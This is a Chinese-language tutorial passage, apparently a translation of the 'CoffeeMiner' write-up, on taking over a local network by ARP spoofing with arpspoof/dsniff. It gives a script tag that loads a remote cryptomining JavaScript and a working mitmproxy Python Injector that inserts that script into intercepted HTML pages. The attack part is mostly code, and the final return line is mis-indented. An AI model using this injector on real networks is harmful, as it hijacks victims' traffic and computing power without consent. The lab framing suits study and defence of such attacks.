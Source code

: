 **路由/网关设备**
网络适配器：
>eth0: Bridged Adapter
eth1: Host-only Adapter
/etc/network/interfaces:
![](/pictures/CoffeeMiner/6.png)

# 编写CoffeeMiner代码
**ARP spoofing功能模块**
在这里，我们采用ARP spoofing来实现中间人MITM测试：

>在计算机网络中，ARP欺骗、ARP缓存中毒或ARP路由毒化都是测试者在局域网中发送假冒ARP消息的技术，一般来说，其目标是将测试者的MAC地址与默认网关或其它主机的IP地址相关联，从而可将该IP地址相关的任何网络通信流量转发到测试者电脑，实现流量拦截和数据窃取等多种恶意目的。

**为了实现该功能，我们要用到arpspoof和嗅探工具dsniff：**
![](/pictures/CoffeeMiner/7.png)

## mitmproxy
mitmproxy是一款流量分析和编辑工具，可以用它来发起中间人测试MITM。在此，我们可以用它来在html页面中注入javascript脚本，出于操作简易，我们只向html页面中注入一行代码，之后该行代码就会远程调用执行相应的javascript挖矿脚本。该行注入代码为：

    <script src="http://httpserverIP:8000/script.js"></script>
    
## Injector
一旦我们截获了受害者的网络流量之后，就可在其中注入我们构造的脚本，为了实现脚本注入，我们需要用到 mitmproxy API 来编写相应injector代码：

{% codeblock lang:python %}
from bs4 import BeautifulSoup
from mitmproxy import ctx, http
import argparse
class Injector:
    def __init__(self, path):
        self.path = path
    def response(self, flow: http.HTTPFlow) -> None:
        if self.path:
            html = BeautifulSoup(flow.response.content, "html.parser")
            print(self.path)
            print(flow.response.headers["content-type"])
            if flow.response.headers["content-type"] == 'text/html':
                script = html.new_tag(
                    "script",
                    src=self.path,
                    type='application/javascript')
                html.body.insert(0, script)
                flow.response.content = str(html).encode("utf8")
                print("Script injected.")
def start():
    parser = argparse.ArgumentParser()
    parser.add_argument("path", type=str)
    args = parser.parse_args()
return Injector(args.path)
{% endcodeblock %}
